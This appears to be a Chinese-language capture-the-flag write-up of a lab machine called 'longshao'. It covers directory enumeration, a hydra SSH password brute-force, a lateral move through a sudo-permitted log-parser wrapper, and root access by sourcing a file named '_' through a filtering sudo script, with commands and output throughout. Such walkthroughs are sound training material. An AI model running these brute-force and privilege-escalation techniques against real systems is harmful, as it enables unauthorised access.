









```table-of-contents
```

# 信息收集

**基本的信息收集、端口与服务探测、默认脚本扫描**
几乎没有什么过多的内容就不再展示了

尝试访问一下网站（80端口）

只有一个登录页面，能想到的就是进行目录枚举与弱口令爆破（一并进行）
注意弱口令爆破：不是无脑的找个字典就行，必要时需要添加一些手动收集的可能的内容



```bash
dirsearch -u http://192.168.69.136
[03:49:31] Starting: 
[03:49:32] 403 -  317B  - /.ht_wsr.txt                                      
[03:49:32] 403 -  317B  - /.htaccess.bak1                                   
[03:49:32] 403 -  317B  - /.htaccess.sample                                 
[03:49:32] 403 -  317B  - /.htaccess.orig
[03:49:32] 403 -  317B  - /.htaccess.save                                   
[03:49:32] 403 -  317B  - /.htaccess_extra                                  
[03:49:32] 403 -  317B  - /.htaccess_sc
[03:49:32] 403 -  317B  - /.htaccess_orig
[03:49:32] 403 -  317B  - /.htaccessBAK
[03:49:32] 403 -  317B  - /.htaccessOLD
[03:49:32] 403 -  317B  - /.htaccessOLD2
[03:49:32] 403 -  317B  - /.htm                                             
[03:49:32] 403 -  317B  - /.html
[03:49:32] 403 -  317B  - /.htpasswd_test                                   
[03:49:32] 403 -  317B  - /.httr-oauth
[03:49:32] 403 -  317B  - /.htpasswds                                       
[03:49:43] 200 -  820B  - /cgi-bin/printenv                                 
[03:49:43] 200 -    1KB - /cgi-bin/test-cgi                                 
[03:49:45] 200 -    2KB - /dashboard.php                                    
[03:49:59] 403 -  317B  - /server-status/                                   
[03:49:59] 403 -  317B  - /server-status  
```
目录枚举与弱口令爆破都有内容！！！（这是没想到的，都看一下吧！）


直接访问就出现了SSH凭据！

再看看登录呢！

登录后与目录枚举的内容是一样的！！！



# 信息枚举

`uname -a`：`Linux longshao 7.0.10-0-stable #1-Alpine SMP PREEMPT_DYNAMIC 2026-05-23 11:50:19 x86_64 Linux` (内核版本很新，暂不作为主要目标)
`sudo -l`：被限制了
`cat /etc/crontab`：不存在
`find / -perm -u=s -type f 2>/dev/null`：基本都能用于提权
`cat /etc/passwd`：
```passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
klogd:x:100:101:klogd:/dev/null:/sbin/nologin
apache:x:104:106:apache:/var/www:/sbin/nologin
baolong:x:1000:1000::/home/baolong:/bin/bash
chaojibaolong:x:1001:1001::/home/chaojibaolong:/bin/bash
chaojiwudilong:x:1002:1002::/home/chaojiwudilong:/bin/bash
```
存在其他两个用户`chaojibaolong`、`chaojiwudilong`

按主、按组进行查询一下


都不是当前权限能操作的！！！（也就是说当前权限很是不足，也可以进一步验证，很多功能都被禁用了） -> 要想提权得有一些基本得操作权限（不用很高，但也不能没有） -> 那么也下来就是办法进行权限横移

找了很多地方都没有发现可能泄露得凭据（包括：ps、.ssh等都不行）

## 权限横移

这里有两个用户，粗略判断是要进行两次横移的！！！

### 权限横移（I）

既然没有找到泄露的凭据，那就尝试弱口令爆破吧！（使用hydra对另外两个用户进行爆破）

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.69.136

[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688798 login tries (l:2/p:14344399), ~1793050 tries per task
[DATA] attacking ssh://192.168.69.136:22/
[22][ssh] host: 192.168.69.136   login: chaojibaolong   password: love123
[ERROR] all children were disabled due too many connection errors
0 of 1 target successfully completed, 1 valid password found
[INFO] Writing restore file because 2 server scans could not be completed
[ERROR] 1 target was disabled because of too many errors
[ERROR] 1 targets did not complete
```
成功爆破出来**chaojibaolong**的passwd：`love123`

### 权限横移（II）

继续进行该用户的枚举
```bash
find / -user chaojibaolong -o -group chaojibaolong -type f 2>/dev/null | grep -v '^/proc'
/var/tmp/check_parser.swp
/opt/internal/parser_core
/dev/pts/1

find / -user chaojiwudilong -o -group chaojiwudilong -type f 2>/dev/null | grep -v '^/proc'
/var/tmp/a.sh.swp
```
查看了一边，几乎没有可用点（可能还需要进一步研究，涉及二进制，先放一下如果是必须的在进行详细分析）

```bash
chaojibaolong@longshao:~$ sudo -l
Matching Defaults entries for chaojibaolong on longshao:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for chaojibaolong:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User chaojibaolong may run the following commands on longshao:
    (ALL : ALL) NOPASSWD: /usr/local/bin/check_parser

```
这个信息就很好了，可以无需密码执行`/usr/local/bin/check_parser`

```bash
chaojibaolong@longshao:~$ cat /usr/local/bin/a.sh 
PATH=/usr/bin

cd /tmp

read CMD < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$CMD"

chaojibaolong@longshao:~$ cat /usr/local/bin/check_parser 
#!/bin/sh

if [ "$(id -u)" -ne 0 ]; then
  echo "syslog-rotate: general protection fault: permission denied." >&2
  exit 1
fi

if [ -z "$1" -a ! -f "$1" ]; then
    echo "Usage: $(basename $0) <target_spool_path> [--force-cron]"
    exit 1
fi


exec /opt/internal/parser_core "$@"

```
分析一下：
`a.sh`：**删除所有字母、数字和斜杠**，然后把剩下的**纯特殊字符**当作Shell命令来执行
`check_parser`：是一个需要**root权限（id=0）执行的包装器**，判断参数id后执行`/opt/internal/parser_core`

也就是说需要对`/opt/internal/parser_core`进行分析（先不急着用IDA分析，看看有没有什么可读字符）

```bash
chaojibaolong@longshao:~$ strings /opt/internal/parser_core
`n/lib/ld-musl-x86_64.so.1
execl
strncmp
puts
strlen
stderr
getuid
_init
fwrite
_fini
__cxa_finalize
access
strcmp
__libc_start_main
libc.musl-x86_64.so.1
__deregister_frame_info
_ITM_registerTMCloneTable
_ITM_deregisterTMCloneTable
__register_frame_info
AVATI
[]A\A^
uGUH
t&UH
[!] Security Violation: Core parser must retain eUID 0.
[!] Parameter Error: Invalid cluster argument count.
[!] Compliance Error: Only *.log files are authorized.
[!] Path Restriction: Access denied.
=================================================
  ChaoJiBaoLong Log Analyser - Security Core v3  
[!] Error: Target log file not found.
[*] DevSecOps Emergency Notice: Switching context...
[+] Analysis completed successfully.
--debug
.log
/tmp/
chaojiwudilong
/bin/su
[*] Reading log file...
;*3$"
GCC: (Alpine 15.2.0) 15.2.0
.shstrtab
.note.gnu.property
.note.gnu.build-id
.interp
.gnu.hash
.dynsym
.dynstr
.rela.dyn
.rela.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.data.rel.ro
.dynamic
.got
.data
.bss
.comment

```
分析：eUID=0；--debug参数；.log后缀；/tmp/目录；/bin/su chaojiwudilong
判断：是否可以使用该程序进行横向移动到 chaojiwudilong 这个用户！
大致构造一些语句：`/opt/internal/parser_core /tmp/666.log --debug`

```bash
chaojibaolong@longshao:~$ /opt/internal/parser_core /tmp/666.log --debug
[!] Security Violation: Core parser must retain eUID 0.
```
提醒：必须ID=0，那就是用sudo 进行检查
```bash
chaojibaolong@longshao:~$ sudo /usr/local/bin/check_parser /tmp/666.log --debug
=================================================
  ChaoJiBaoLong Log Analyser - Security Core v3  
=================================================
[!] Error: Target log file not found.
[*] DevSecOps Emergency Notice: Switching context...
chaojiwudilong@longshao:~$ whoami
chaojiwudilong
chaojiwudilong@longshao:~$ 
```

第二次横向移动完成！！


# 提权

对chaojiwudilong进行枚举
```bash
chaojiwudilong@longshao:~$ sudo -l
Matching Defaults entries for chaojiwudilong on longshao:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for chaojiwudilong:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User chaojiwudilong may run the following commands on longshao:
    (root) NOPASSWD: /usr/local/bin/a.sh

```
发现`a.sh`可以无密码以root权限执行
而`a.sh`会删除**所有字母**、**数字**和**斜杠**，然后把剩下的**纯特殊字符**当作Shell命令来执行

那就创建一个特殊字符的文件，执行看能否提权
```bash
chaojiwudilong@longshao:/tmp$ echo '/bin/bash -p' > /tmp/_
chaojiwudilong@longshao:/tmp$ sudo /usr/local/bin/a.sh
. _
root@longshao:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
root@longshao:/tmp# whoami
root
root@longshao:/tmp# cat /root/root.txt 
bash: cat: command not found

```
这里直接使用cat、ls等会显示不存在，只需要在命令前添加 `/bin/` 即可


还有一个`pass.txt`


成功！！！


# 小结

整体流程：基本信息收集 - 目录枚举找到初始立足点 - 信息枚举分析提权逻辑 - 未找到可用提权逻辑以及凭证泄露就只有尝试暴力破解法（使用hydra进行用户密码爆破） - 第一次横向移动涉及对二进制程序的简单逆向（安装流程直接进行提权） - 第二次横向移动（提权）在于用户信息的枚举，找到提权的脚本进行分析利用（**需要对Linux中 `.`号的作用有所理解**)

## 扩展

`.`在Linux中主要的含义：
- 在路径中表示当前路径
- 在文件开头表示隐藏文件
- 在shell里表示**就地执行（source）**（`. script`）
- 在正则表达式里表示匹配任意一个字符

|比较项|`. _` （source）|`./_` （直接执行）|
|---|---|---|
|**执行方式**|在当前 Shell **进程内部**读取文件并逐行执行|启动一个**全新的子 Shell** 去运行这个文件|
|**权限要求**|只需要文件**可读**|需要文件**可执行**（`chmod +x`）|
|**对环境的影响**|可以修改当前 Shell 的变量、工作目录等|子 Shell 的修改在退出后全部丢失|
|**命令本身**|点号是 Shell 内建命令|`./` 是路径前缀，实际命令是 `_`|
